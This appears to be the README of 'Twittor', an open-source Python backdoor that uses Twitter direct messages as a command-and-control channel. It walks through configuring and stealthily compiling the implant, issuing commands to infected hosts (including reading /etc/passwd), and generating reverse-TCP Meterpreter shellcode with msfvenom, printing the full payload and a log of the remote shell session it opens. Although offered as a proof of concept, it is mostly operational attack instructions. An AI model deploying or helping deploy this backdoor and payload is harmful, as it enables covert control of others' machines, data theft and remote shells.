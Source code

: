 [![Run on Repl.it](https://repl.it/badge/github/PaulSec/twittor)](https://repl.it/github/PaulSec/twittor)

Twittor
====
A stealthy Python based backdoor that uses Twitter (Direct Messages) as a command and control server
This project has been inspired by [Gcat](https://github.com/byt3bl33d3r/gcat) which does the same but using a Gmail account.

Setup 
=====
For this to work you need:
- A Twitter account (**Use a dedicated account! Do not use your personal one!**)
- [Register an app](https://apps.twitter.com/app/new) on Twitter with **Read, write, and direct messages** Access levels. 

Install the dependencies:

```
$ pip install -r requirements.txt
```

This repo contains two files:
- ```twittor.py``` which is the client
- ```implant.py``` the actual backdoor to deploy

In both files, edit the access token part and add the ones that you previously generated:

```python
CONSUMER_TOKEN = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'
CONSUMER_SECRET = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'

ACCESS_TOKEN = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'
ACCESS_TOKEN_SECRET = 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'

USERNAME = 'XXXXXXXXXXXXXXXXXXXXXXXX'
```

You're probably going to want to compile ```implant.py``` into an executable using [Pyinstaller](https://github.com/pyinstaller/pyinstaller)
In order to remove the console when compiling with Pyinstaller, the flags ```--noconsole --onefile``` will help. Just saying. 

Usage
=====

In order to run the client, launch the script. 

```
$ python twittor.py
```

You'll then get into an 'interactive' shell which offers few commands that are:

```
$ help

    refresh - refresh C&C control
    list_bots - list active bots
    list_commands - list executed commands
    !retrieve <jobid> - retrieve jobid command
    !cmd <MAC ADDRESS> command - execute the command on the bot
    !shellcode <MAC ADDRESS> shellcode - load and execute shellcode in memory (Windows only)
    help - print this usage
    exit - exit the client
    
$ 
```

- Once you've deployed the backdoor on a couple of systems, you can check available clients using the list command:
```
$ list_bots
B7:76:1F:0B:50:B7: Linux-x.x.x-generic-x86_64-with-Ubuntu-14.04-precise
$
```

The output is the MAC address which is used to uniquely identifies the system but also gives you OS information the implant is running on. In that case a Linux box. 


- Let's issue a command to an implant:
```
$ !cmd B7:76:1F:0B:50:B7 cat /etc/passwd
[+] Sent command "cat /etc/passwd" with jobid: UMW07r2
$
```

Here we are telling ```B7:76:1F:0B:50:B7``` to execute ```cat /etc/passwd```, the script then outputs the ```jobid``` that we can use to retrieve the output of that command

- Lets get the results!

```
$ !retrieve UMW07r2
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
(...)
```

Command to use in that case is ```!retrieve``` followed by the jobid from the command. 

- Refresh results

In order to retrieve new bots/command outputs but also force the client to refresh the results, use the ```refresh``` command.

```
$ refresh
[+] Sending command to retrieve alive bots
[+] Sleeping 10 secs to wait for bots
$
```

This will send a ```PING``` request and wait 10 seconds for them to answer.
Direct messages will then be parsed - Bot list will be refreshed but also the command list, including new command outputs. 

- Retrieve previous commands

As I said earlier, (previous) commands will be retrieved from older direct messages (limit is 200) and you can actually retrieve/see them by using the ```list_commands``` command

```
$ list_commands
8WNzapM: 'uname -a ' on 2C:4C:84:8C:D3:B1
VBQpojP: 'cat /etc/passwd' on 2C:4C:84:8C:D3:B1
9KaVJf6: 'PING' on 2C:4C:84:8C:D3:B1
aCu8jG9: 'ls -al' on 2C:4C:84:8C:D3:B1
8LRtdvh: 'PING' on 2C:4C:84:8C:D3:B1
$
```

- Running shellcode (Windows hosts)

This option might be handy in order to retrieve a meterpreter session and [this article](http://netsec.ws/?p=331#more-331) becomes really useful. 

Generate your meterpreter shellcode, like: 

```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=3615 -f python
(...)
Payload size: 299 bytes
buf =  ""
buf += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += "\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += "\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += "\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += "\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += "\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += "\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += "\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += "\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += "\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
buf += "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += "\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
buf += "\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
buf += "\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x00\x00\x01\x68"
buf += "\x02\x00\x0e\x1f\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
buf += "\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec"
buf += "\xe8\x3f\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02"
buf += "\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\xe9\x8b\x36\x6a"
buf += "\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53"
buf += "\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
buf += "\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\xc3\x01\xc3\x29\xc6"
buf += "\x75\xe9\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5"
```

Extract the shellcode and send it to the specified bot using the ```!shellcode``` command! 

```
$ !shellcode 11:22:33:44:55 \xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b (...)
[+] Sent shellcode with jobid: xdr7mtN
$
```

Et voilà! 

```
msf exploit(handler) > exploit

[*] Started reverse handler on 10.0.0.1:3615 
[*] Starting the payload handler...
[*] Sending stage (884270 bytes) to 10.0.0.99
[*] Meterpreter session 1 opened (10.0.0.1:3615 -> 10.0.0.99:49254) at 2015-09-08 10:19:04 -0400

meterpreter > getuid
Server username: WIN-XXXXXXXXX\PaulSec
```

Open a beer and enjoy your reverse meterpreter shell. 

Contributing and/or questions? 
=====

Project is entirely open source and released under MIT license.
I mostly wanted to create a PoC after Twitter decided to remove the 140 characters limit for the Direct Messages. 
Few stuff should be added such as Encryption (Adding AES on top of it). 
"Messages" are using a dictionary data structure and the whole command is only base64 encoded. 
Fork the project, contribute, submit pull requests, and have fun. 

If you find a bug, open an issue on Github and/or ping me on [Twitter](http://twitter.com/PaulWebSec).

Again, feel free to check the [Gcat](https://github.com/byt3bl33d3r/gcat) amazing project from [byt3bl33d3r](https://twitter.com/byt3bl33d3r) that inspired me a lot.
